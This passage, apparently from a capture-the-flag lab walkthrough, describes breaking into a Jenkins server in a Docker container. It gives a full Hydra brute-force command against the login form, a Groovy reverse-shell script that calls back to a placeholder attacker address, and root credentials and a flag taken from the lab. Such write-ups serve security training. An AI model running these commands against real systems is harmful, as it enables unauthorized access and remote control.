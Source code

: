 12. The default credentials (admin:password) are no good here unfortunately. Inspecting the response does provide some interesting details, including the Jenkins version and some Server information:

    - X-Hudson: 1.395
    - X-Jenkins: 2.250
    - X-Jenkins-Session: 2dd406a0
    - X-Hudson-CLI-Port: 50000
    - X-Jenkins-CLI-Port: 50000
    - X-Jenkins-CLI2-Port: 50000
    - X-Frame-Options: sameorigin
    - Server: Jetty(9.4.30.v20200611

13. In contrast to the earlier password cracking with WordPress, I will try at Jenkins with Hydra. The following command will do. The payload is from inspecting the source and POST request during login.

    <code>hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8081 localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -f -o hydra_jenkins.txt
    </code>

    Again, to explain the above, using a single username (-l admin) and the rockyou.txt password list (-P), Hydra will connect to localhost at port 8080 (-s). It will perform a POST request iteratively on the form (http-post-form) and output the results to the text file. The -f option will terminate the attempts after a valid pair of credentials are found. The portion before -f specifies some request and response details, including the login page, the request payload, and the invalid attempt identifier string. Each of these is separated by a colon.

    Success! We get <code>spongebob</code> as the password for the admin user.

14. Using the script console within Jenkins, we can create a reverse shell to connect to by running the following Java:

    <code>r = Runtime.getRuntime()<br />
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/LOCAL_IP/LOCAL_PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])<br />
    p.waitFor()</code>

    .. and of course setting up a netcat listener on the same port on the attack machine.

15. A new shell appears! This time, in a docker container serving Jenkins. Checking for any text files of note, running the command <code>find / -name *.txt</code> produces /opt/note.txt as the very first result.

    Golden! The root credentials are stored inside:

    <code>root:tr0ub13guM!@#123</code>

16. SSH works well with these. We have obtained the last flag:

    THM{d0ck3r_d3str0y3r}

    Docker... destroyed!
